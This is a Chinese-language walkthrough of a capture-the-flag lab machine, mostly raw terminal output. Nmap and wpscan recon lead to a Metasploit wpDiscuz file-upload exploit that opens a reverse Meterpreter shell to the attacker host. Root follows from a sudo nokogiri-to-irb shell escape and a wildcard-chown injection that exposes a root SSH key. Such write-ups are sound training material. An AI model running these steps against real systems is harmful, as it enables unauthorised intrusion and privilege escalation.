


# 信息搜集
主机发现

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.3    08:00:27:14:ca:d3       PCS Systemtechnik GmbH
192.168.21.11   92:87:65:03:f9:bb       (Unknown: locally administered)
192.168.21.4    c2:ab:39:9e:98:94       (Unknown: locally administered)

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.043 seconds (125.31 hosts/sec). 5 responded
```
端口扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.21.3   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-19 00:58 EDT
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.000084s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:14:CA:D3 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.59 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p22,80 192.168.21.3  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-19 00:59 EDT
Nmap scan report for 192.168.21.3 (192.168.21.3)
Host is up (0.00026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:14:CA:D3 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.13 seconds
```

# 漏洞利用
看一下80端口





用wpscan扫一下

```bash
┌──(root㉿kali)-[~]
└─# wpscan --url http://192.168.21.3 --plugins-detection aggressive -e u,p --api-token  
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _ | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.21.3/ [192.168.21.3]
[+] Started: Wed Mar 19 02:01:48 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.168.21.3/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.21.3/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.21.3/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.21.3/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.21.3/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.2 identified (Latest, released on 2025-02-11).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.21.3/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=6.7.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.21.3/, Match: 'WordPress 6.7.2'

[i] The main theme could not be detected.


[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://192.168.21.3/wp-content/plugins/akismet/
 | Latest Version: 5.3.7
 | Last Updated: 2025-02-14T18:49:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.21.3/wp-content/plugins/akismet/, status: 403
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 3.1.5
 |     References:
 |      - https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357
 |      - http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
 |      - https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
 |
 | The version could not be determined.

[+] wpdiscuz
 | Location: http://192.168.21.3/wp-content/plugins/wpdiscuz/
 | Last Updated: 2025-02-20T16:52:00.000Z
 | Readme: http://192.168.21.3/wp-content/plugins/wpdiscuz/readme.txt
 | [!] The version is out of date, the latest version is 7.6.28
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.21.3/wp-content/plugins/wpdiscuz/, status: 200
 |
 | [!] 19 vulnerabilities identified:
 |
 | [!] Title: Comments - wpDiscuz 7.0.0 - 7.0.4 - Unauthenticated Arbitrary File Upload
 |     Fixed in: 7.0.5
 |     References:
 |      - https://wpscan.com/vulnerability/92ae2765-dac8-49dc-a361-99c799573e61
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24186
 |      - https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/
 |      - https://plugins.trac.wordpress.org/changeset/2345429/wpdiscuz
 |
 | [!] Title: Comments - wpDiscuz < 7.3.2 - Admin+ Stored Cross-Site Scripting
 |     Fixed in: 7.3.2
 |     References:
 |      - https://wpscan.com/vulnerability/f51a350c-c46d-4d52-b787-762283625d0b
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24737
 |
 | [!] Title: wpDiscuz < 7.3.4 - Arbitrary Comment Addition/Edition/Deletion via CSRF
 |     Fixed in: 7.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/2746101e-e993-42b9-bd6f-dfd5544fa3fe
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24806
 |      - https://www.youtube.com/watch?v=CL7Bttu2W-o
 |
 | [!] Title: wpDiscuz < 7.3.12 - Sensitive Information Disclosure
 |     Fixed in: 7.3.12
 |     References:
 |      - https://wpscan.com/vulnerability/027e6ef8-39d8-4fa9-957f-f53ee7175c0a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23984
 |
 | [!] Title: wpDiscuz < 7.6.4 - Unauthenticated Data Modification via IDOR
 |     Fixed in: 7.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/d7de195a-a932-43dd-bbb4-784a19324b04
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3869
 |
 | [!] Title: wpDiscuz < 7.6.4 - Post Rating Increase/Decrease iva IDOR
 |     Fixed in: 7.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/051ab8b8-210e-48ac-82e7-7c4a0aa2ecd5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3998
 |
 | [!] Title: wpDiscuz < 7.6.12 - Unauthenticated Stored XSS
 |     Fixed in: 7.6.12
 |     References:
 |      - https://wpscan.com/vulnerability/f061ffa4-25f2-4ad5-9edb-6cb2c7b678d1
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47185
 |
 | [!] Title: wpDiscuz < 7.6.6 - Unauthenticated SQL Injection
 |     Fixed in: 7.6.6
 |     Reference: https://wpscan.com/vulnerability/ebb5ed9a-4fb2-4d64-a8f2-6957878a4599
 |
 | [!] Title: wpDiscuz < 7.6.4 - Author+ IDOR
 |     Fixed in: 7.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/d5e677ef-786f-4921-97d9-cbf0c2e21df9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46311
 |
 | [!] Title: wpDiscuz < 7.6.11 - Unauthenticated Content Injection
 |     Fixed in: 7.6.11
 |     References:
 |      - https://wpscan.com/vulnerability/8c8cabee-285a-408f-9449-7bb545c07cdc
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46310
 |
 | [!] Title: wpDiscuz < 7.6.11 - Insufficient Authorization to Comment Submission on Deleted Posts
 |     Fixed in: 7.6.11
 |     References:
 |      - https://wpscan.com/vulnerability/874679f2-bf44-4c11-bc3b-69ae5ac59ced
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46309
 |
 | [!] Title: wpDiscuz < 7.6.12 - Missing Authorization in AJAX Actions
 |     Fixed in: 7.6.12
 |     References:
 |      - https://wpscan.com/vulnerability/2e121d4f-7fdf-428c-8251-a586cbd31a96
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45760
 |
 | [!] Title: wpDiscuz < 7.6.12 - Cross-Site Request Forgery
 |     Fixed in: 7.6.12
 |     References:
 |      - https://wpscan.com/vulnerability/f8dfcc13-187c-4a83-a87e-761c0db4b6d9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47775
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/53af9dfd-eb2d-4f6f-b02f-daf790b95f1f
 |
 | [!] Title: wpDiscuz < 7.6.6 - Unauthenticated SQL Injection
 |     Fixed in: 7.6.6
 |     References:
 |      - https://wpscan.com/vulnerability/a2fec175-40f6-4a80-84ed-5b88251584de
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/9dd1e52c-83b7-4b3e-a791-a2c0ccd856bc
 |
 | [!] Title: wpDiscuz < 7.6.13 - Admin+ Stored XSS
 |     Fixed in: 7.6.13
 |     References:
 |      - https://wpscan.com/vulnerability/79aed6a7-a6e2-4429-8f98-ccac6b59fb4d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-51691
 |      - https://patchstack.com/database/vulnerability/wpdiscuz/wordpress-wpdiscuz-plugin-7-6-12-cross-site-scripting-xss-vulnerability
 |
 | [!] Title: wpDiscuz < 7.6.16 - Authenticated (Author+) Stored Cross-Site Scripting via Uploaded Image Alternative Text
 |     Fixed in: 7.6.16
 |     References:
 |      - https://wpscan.com/vulnerability/f3a337ae-54e5-41ca-a0d9-60745b568469
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-2477
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/3eddc03d-ecff-4b50-a574-7b6b62e53af0
 |
 | [!] Title: Comments – wpDiscuz < 7.6.19 - Authenticated (Contributor+) Stored Cross-Site Scripting
 |     Fixed in: 7.6.19
 |     References:
 |      - https://wpscan.com/vulnerability/607da7a6-c2f2-4a9e-9471-8e0d29f355d9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-35681
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/005bf2f0-892f-4248-afe3-263ae3d2ac54
 |
 | [!] Title: Comments – wpDiscuz < 7.6.22 - Unauthenticated HTML Injection
 |     Fixed in: 7.6.22
 |     References:
 |      - https://wpscan.com/vulnerability/66542876-77ae-442d-acde-2aac642f1d36
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-6704
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/fa3501a4-7975-4f90-8037-f8a06c293c07
 |
 | [!] Title: Comments – wpDiscuz < 7.6.25 - Authentication Bypass
 |     Fixed in: 7.6.25
 |     References:
 |      - https://wpscan.com/vulnerability/b95d9907-2c2d-4187-b902-d67262ea6b6d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9488
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/b71706a7-e101-4d50-a2da-1aeeaf07cf4b
 |
 | Version: 7.0.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.21.3/wp-content/plugins/wpdiscuz/readme.txt

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <> (0 / 10)  0.00%  E Brute Forcing Author IDs - Time: 00:00:00 <> (1 / 10) 10.00%  E Brute Forcing Author IDs - Time: 00:00:00 <> (5 / 10) 50.00%  E Brute Forcing Author IDs - Time: 00:00:00 <> (6 / 10) 60.00%  E Brute Forcing Author IDs - Time: 00:00:00 <> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] smart_ass
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://192.168.21.3/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Rss Generator (Aggressive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 7

[+] Finished: Wed Mar 19 02:02:07 2025
[+] Requests Done: 1518
[+] Cached Requests: 43
[+] Data Sent: 408.271 KB
[+] Data Received: 521.929 KB
[+] Memory used: 216.035 MB
[+] Elapsed time: 00:00:19
```
插件有很多漏洞，看一看有没有能用的

```bash
msf6 > search wpDiscuz

Matching Modules
================

   #  Name                                                         Disclosure Date  Rank       Check  Description
   -  ----                                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload  2020-02-21       excellent  Yes    WordPress wpDiscuz Unauthenticated File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
```
利用一下看看

```bash
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenti
cated_file_upload) > set RHOSTS 192.168.21.3
RHOSTS => 192.168.21.3
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenti
cated_file_upload) > set BLOGPATH 2021/06/09/hello-world/       
BLOGPATH => 2021/06/09/hello-world/
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenti
cated_file_upload) > set LHOST 192.168.21.13               
LHOST => 192.168.21.13
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenti
cated_file_upload) > run                                        
[*] Started reverse TCP handler on 192.168.21.13:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Payload uploaded as UYAgZ.php
[*] Calling payload...
[*] Sending stage (40004 bytes) to 192.168.21.3
[*] Meterpreter session 1 opened (192.168.21.13:4444 -> 192.168.21.3:35804) at 2025-03-19 02:07:03 -0400
[!] This exploit may require manual cleanup of 'UYAgZ.php' on the target

meterpreter > shell
Process 1244 created.
Channel 0 created.
python -c "import pty;pty.spawn('/bin/bash')"
www-data@beloved:/var/www/html/wordpress/wp-content/uploads/2025/03$
```
# 提权
看一下有什么

```bash
www-data@beloved:/var/www/html/wordpress/wp-content/uploads/2025/03$ sudo -l
sudo -l
Matching Defaults entries for www-data on beloved:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on beloved:
    (beloved) NOPASSWD: /usr/local/bin/nokogiri
```
Nokogiri是Ruby的gem,常用来解析XML/HTML,爬取网络数据等.

```bash
<ds/2025/03$ sudo -u beloved /usr/local/bin/nokogiri                 
Nokogiri: an HTML, XML, SAX, and Reader parser
Usage: nokogiri <uri|path> [options]

Examples:
  nokogiri https://www.ruby-lang.org/
  nokogiri ./public/index.html
  curl -s http://www.nokogiri.org | nokogiri -e'p $_.css("h1").length'

Options:
        --type type                  Parse as type: xml or html (default: auto)
    -C file                          Specifies initialization file to load (default /home/beloved/.nokogirirc)
    -E, --encoding encoding          Read as encoding (default: none)
    -e command                       Specifies script from command-line.
        --rng <uri|path>             Validate using this rng file.
    -?, --help                       Show this message
    -v, --version                    Show version
```
irb（Interactive Ruby）是 Ruby 语言的交互式解释器（Interactive Ruby Shell）。当你在终端输入 irb 并回车后，就会进入 Ruby 的交互式环境，可以直接输入 Ruby 代码并立即执行。

```bash
www-data@beloved:/var/www/html/wordpress/wp-content/uploads/2025/03$ sudo -u beloved /usr/local/bin/nokogiri /etc/passwd
<sudo -u beloved /usr/local/bin/nokogiri /etc/passwd                 
Your document is stored in @doc...
irb(main):002:0> system("bash")
system("bash")
beloved@beloved:/var/www/html/wordpress/wp-content/uploads/2025/03$
```
user.txt

```bash
beloved@beloved:~$ ls -la
ls -la
total 40
drwx------ 5 beloved beloved 4096 Jun 27  2021 .
drwxr-xr-x 3 root    root    4096 Jun 27  2021 ..
-rw------- 1 beloved beloved  325 Jun 27  2021 .bash_history
-rw-r--r-- 1 beloved beloved  220 Jun  9  2021 .bash_logout
-rw-r--r-- 1 beloved beloved 3526 Jun  9  2021 .bashrc
drwx------ 3 beloved beloved 4096 Jun 27  2021 .gnupg
drwxr-xr-x 3 beloved beloved 4096 Jun 10  2021 .local
-rw-r--r-- 1 beloved beloved  845 Jun 10  2021 .profile
drwx------ 2 beloved beloved 4096 Jun 27  2021 .ssh
-rwx------ 1 beloved beloved   33 Jun 27  2021 user.txt
beloved@beloved:~$ cat user.txt
cat user.txt
020588f87676a40236192c324c1a57fc
```
sudo需要密码

```bash
beloved@beloved:~$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for beloved:
```
用linpeas.sh和pspy64看一下都有什么

```bash
2025/03/19 07:23:01 CMD: UID=0     PID=16020  | /bin/sh -c cd /opt && chown root:root *
beloved@beloved:~$ ./linpeas.sh | grep /opt
./linpeas.sh | grep /opt
. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . beloved  16070  0.0  0.0   3084   888 pts/1    S+   07:33   0:00  |                               _ grep /opt                                                             
sed: -e expression #1, char 0: no previous regular expression
-rw------- 1 root root 1823 Jun 27  2021 /opt/id_rsa
/opt
╔══════════╣ Unexpected in /opt (usually empty)
```
提权

```bash
beloved@beloved:~$ cd /opt                                      
cd /opt                                                         
beloved@beloved:/opt$ touch 1                                   
touch 1                                                         
beloved@beloved:/opt$ touch -- --reference=1                    
touch -- --reference=1
beloved@beloved:/opt$ ls -la                                    
ls -la                                                          
total 12                                                        
-rw-r--r--  1 beloved beloved    0 Mar 19 07:42 '--reference=1' 
drwxrwx---  2 root    beloved 4096 Mar 19 07:42  .              
drwxr-xr-x 18 root    root    4096 May 19  2021  ..             
-rw-r--r--  1 beloved beloved    0 Mar 19 07:42  1              
-rw-------  1 beloved beloved 1823 Jun 27  2021  id_rsa         
```
root.txt

```bash
┌──(kali㉿kali)-[~]
└─$ chmod 600 id_rsa                                       
                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa root@192.168.21.3
Linux beloved 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 27 17:47:28 2021 from 192.168.0.28
root@beloved:~# ls -la
total 60
drwx------  8 root root 4096 Jun 27  2021 .
drwxr-xr-x 18 root root 4096 May 19  2021 ..
-rw-------  1 root root  371 Jun 27  2021 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 Jun  9  2021 .cache
drwxr-xr-x  3 root root 4096 Jun 27  2021 .gem
drwx------  3 root root 4096 Jun 10  2021 .gnupg
drwxr-xr-x  3 root root 4096 May 24  2021 .local
-rw-------  1 root root 1079 Jun 27  2021 .mysql_history
drwxr-xr-x  4 root root 4096 Jun 10  2021 .npm
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jun 27  2021 root.txt
-rw-r--r--  1 root root   66 Jun 27  2021 .selected_editor
drwx------  2 root root 4096 Jun 27  2021 .ssh
-rw-r--r--  1 root root  173 Jun 11  2021 .wget-hsts
root@beloved:~# root.txt
-bash: root.txt: command not found
root@beloved:~# cat root.txt
d585a3099ec825ec1c086b50ce8ff7d3
```